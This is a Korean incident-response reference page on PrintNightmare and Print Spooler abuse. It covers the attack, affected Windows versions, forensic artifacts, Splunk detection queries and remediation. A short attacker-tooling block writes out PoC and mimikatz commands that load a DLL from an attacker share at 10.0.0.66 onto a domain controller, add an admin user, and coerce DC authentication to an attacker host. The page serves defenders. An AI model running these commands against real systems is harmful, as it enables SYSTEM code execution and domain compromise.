

# PrintNightmare와 Print Spooler 악용 { #printnightmare-print-spooler-abuse }

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1068 (권한 상승을 위한 익스플로잇) · T1210 (원격 서비스 익스플로잇) · T1547.012 (Print Processors) · **CVE:** CVE-2021-1675, CVE-2021-34527 · **전술:** 권한 상승 / 횡적 이동 · **최종 수정:** 2026-10-07
</div>

!!! abstract "요약"
    **Print Spooler**(`spoolsv.exe`)는 도메인 컨트롤러를 포함한 거의 모든 Windows 머신에서 **SYSTEM** 권한으로 실행되며, 클라이언트가 프린터 드라이버를 설치할 수 있게 해 줍니다. **PrintNightmare**(2021)는 드라이버 설치 API(MS-RPRN의 `RpcAddPrinterDriverEx`, 그리고 MS-PAR)를 악용해, 인증된 사용자라면 누구든 로컬 또는 **원격**으로 스풀러가 **임의의 DLL을 SYSTEM 권한으로** 로드하게 만들 수 있었습니다. DC에서라면 일반 사용자 계정으로 도메인을 장악하는 것입니다. 스풀러는 [NTLM 릴레이](llmnr-ntlm-relay.md)에 쓰이는 **PrinterBug** 강제 인증(coercion)과 프린트 프로세서를 이용한 **지속성**의 엔진이기도 합니다. 방어자를 위한 교훈: *필요 없는 서비스는 끄세요*.

## 공격 원리 { #how-the-attack-works }



관련된 스풀러 문제들:

| 문제 | 연도 | 영향 |
|---|---|---|
| **PrintNightmare** CVE-2021-1675 / 34527 | 2021 | LPE + SYSTEM 권한 **원격 코드 실행** |
| Point-and-Print 후속 취약점 (CVE-2021-36958 등) | 2021 | 공격자 프린트 서버에서 프린터 드라이버를 설치하게 해 LPE |
| **PrinterBug / SpoolSample** (MS-RPRN `RpcRemoteFindFirstPrinterChangeNotificationEx`) | 2018 → *설계상 동작* | 아무 호스트(DC 포함)나 공격자에게 인증하도록 강제 — 릴레이 / 비제한 위임 악용 |
| **PrintSpoofer** | 2020 | `SeImpersonate` → SYSTEM — [Potato 공격](token-impersonation-potato.md) 참고 |
| Stuxnet MS10-061 | 2010 | 공유 프린터를 통한 스풀러 RCE (XP 시절) |

## 공격 도구 / 명령 { #attacker-tooling-commands }

```text
# Check whether the spooler is exposed remotely
rpcdump.py @dc01 | egrep 'MS-RPRN|MS-PAR'

# PrintNightmare PoCs (recognition)
CVE-2021-1675.py corp/user:pass@dc01 '\\10.0.0.66\share\evil.dll'
Invoke-Nightmare -DriverName "Xerox" -NewUser "bad" -NewPassword "..."   # local LPE, adds admin
mimikatz  misc::printnightmare /server:dc01 /library:\\10.0.0.66\share\evil.dll

# Coercion
printerbug.py corp/user@dc01 10.0.0.66
SpoolSample.exe dc01 attackerhost
```

## 영향받는 Windows 버전 { #affected-windows-versions }

| 버전 | PrintNightmare | 메모 |
|---|---|---|
| **XP / 2003** | 수정 배포 안 됨 (지원 종료) | 스풀러 기본 활성화; 과거 MS10-061도 있음 |
| **Vista / 2008** | 2008 SP2 패치됨 (ESU 시기) | |
| **7 / 2008 R2** | 7이 지원 종료였음에도 **2021년 7월 긴급(out-of-band) 패치** | 주목할 점 — 심각도를 보여 줌 |
| **8.1 / 2012 / 2012 R2** | 패치됨 | |
| **10 / 2016 / 2019 / 2022** | 패치됨 (2021년 6/7/8월 업데이트) | 2021년 8월 업데이트로 기본값 변경: **관리자만 프린터 드라이버 설치 가능** (`RestrictDriverInstallationToAdministrators=1`) |
| **11 / 2025** | 수정된 기본값으로 출시 | 스풀러는 여전히 **기본 활성화**; PrinterBug 강제 인증은 여전히 동작 |

!!! warning "패치만으로는 충분하지 않았습니다"
    2021년에는 **Point and Print** 정책에 `NoWarningNoElevationOnInstall=1`이나 `UpdatePromptSettings=1`이 설정되어 있으면 패치 후에도 호스트가 여전히 익스플로잇 가능했습니다. `HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint` 아래의 이 레지스트리 값들을 확인하세요 — **없거나 0**이어야 하고, `RestrictDriverInstallationToAdministrators`는 **1**이어야 합니다.

## 남는 흔적 { #artifacts-left-behind }

| 위치 | 아티팩트 | 찾을 것 |
|---|---|---|
| 파일 시스템 | 실제 프린터 벤더의 것이 아닌 `C:\Windows\System32\spool\drivers\x64\3\` (및 `\3\Old\N\`) 안의 새 DLL | 페이로드 — 서명자와 생성 시각 확인 ([$MFT](../windows/mft-usn.md)) |
| Sysmon | `spoolsv.exe`가 `spool\drivers\`에 만든 **11** 파일 생성; `spoolsv.exe`에 서명되지 않은 DLL이 로드된 **7** 이미지 로드 | 드라이버 투하 + 로드 |
| Sysmon / 4688 | **1** `spoolsv.exe` → `cmd.exe` / `rundll32.exe` / `powershell.exe` | 스풀러 아래에서 SYSTEM으로 실행되는 코드 |
| PrintService/Admin | **808** (스풀러가 플러그인 모듈 로드에 실패) — 익스플로잇 시도는 DLL 경로와 함께 이 이벤트를 자주 남김 | 실패한 시도와 성공한 시도 |
| PrintService/Operational | **316** (프린터 드라이버 추가됨) — 로그가 **기본으로 비활성화**되어 있으니 켜세요 | 이름과 경로가 담긴 드라이버 설치 기록 |
| Security 로그 | 직전에 사용자 워크스테이션에서 DC로의 **4624 Type 3**; `\\DC\IPC$` → `spoolss`에 대한 **5145** 접근 | 원격 익스플로잇 / 강제 인증 경로 |
| Security 로그 | **4720/4732** Administrators에 새 사용자 추가 (흔한 PoC 페이로드) | 사후 익스플로잇 활동 |
| 레지스트리 | `HKLM\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Drivers\Version-3\<name>`와 `...\Print Processors\` | 설치된 드라이버 / 프린트 프로세서를 통한 지속성 |

## 탐지 { #detection }

=== "Splunk — DLL을 로드/투하하는 스풀러"

    ```spl
    index=botsv3 sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" Image="*\\spoolsv.exe"
      ((EventID=11 TargetFilename="*\\spool\\drivers\\*.dll") OR (EventID=7 Signed=false))
    | table _time, host, EventID, TargetFilename, ImageLoaded, Signature
    ```

    Sysmon `11` = 파일 생성; `7` = DLL(이미지) 로드. 첫 번째 조건은 스풀러가 드라이버 저장소에 DLL을 쓰는 것을 잡고, 두 번째 조건은 **서명되지 않은** 코드를 로드하는 것을 잡습니다. 진짜 프린터 드라이버는 서명되어 있습니다.

=== "Splunk — 스풀러 자식 프로세스"

    ```spl
    index=botsv3 sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=1 ParentImage="*\\spoolsv.exe"
    | where NOT match(lower(Image),"splwow64\.exe|printisolationhost\.exe|conhost\.exe")
    | table _time, host, Image, CommandLine, User
    ```

    `splwow64.exe`와 `PrintIsolationHost.exe`는 정상적인 스풀러 도우미입니다; 그 밖에 `spoolsv.exe`가 생성한 것은 모두 조사해야 합니다.

=== "Splunk — 808 플러그인 실패"

    ```spl
    index=botsv3 source="*PrintService/Admin*" EventCode=808
    | table _time, host, Message
    ```

## 대응 { #response }

DC가 공격받았다면 도메인 침해로 취급하세요(DC의 SYSTEM = DCSync 가능). 투하된 DLL과 악성 드라이버를 제거하고(`Remove-PrinterDriver`), 새로 생긴 로컬/도메인 관리자가 있는지 확인하고, 스풀러가 필요 없는 모든 서버에서 **스풀러를 중지하고 비활성화**하세요.

### Windows 버전별 대응책 { #remediation-by-windows-version }

| 대응책 | 막는 것 | 적용 가능 버전 |
|---|---|---|
| **Print Spooler 중지 + 비활성화** (`Stop-Service Spooler; Set-Service Spooler -StartupType Disabled`) — **DC에서는 항상** | PrintNightmare, PrinterBug 강제 인증, PrintSpoofer | 모든 버전 |
| GPO *Allow Print Spooler to accept client connections* = **Disabled** (로컬 인쇄가 필요한 곳) | 원격 익스플로잇 | 지원되는 모든 버전 |
| 2021년 7/8월 이후 업데이트 설치 | 해당 CVE들 | 7 / 2008 R2 → 11 / 2022 (XP / 2003 / Vista는 수정 없음) |
| `RestrictDriverInstallationToAdministrators = 1`; Point and Print `NoWarningNoElevationOnInstall = 0` | 관리자가 아닌 사용자의 드라이버 설치 | 패치된 7 이상 (2021년 8월부터 기본값) |
| Package Point and Print — *승인된 서버(Approved servers)* 목록 | 공격자 프린트 서버로부터의 드라이버 설치 | 7 / 2008 R2 이상 |
| **PrintService/Operational** 로그 활성화; spoolsv에 대한 Sysmon 7/11 | 탐지 | Vista 이상 |

## 참고 자료 { #references }

- [Microsoft — CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- [Microsoft — KB5005010 Point and Print restrictions](https://support.microsoft.com/help/5005010)
- [MITRE ATT&CK — T1068](https://attack.mitre.org/techniques/T1068/) · [T1547.012](https://attack.mitre.org/techniques/T1547/012/)
- 관련 페이지: [LLMNR와 NTLM 릴레이](llmnr-ntlm-relay.md) · [토큰 가장과 Potato](token-impersonation-potato.md) · [버전별 강화](hardening-by-version.md)
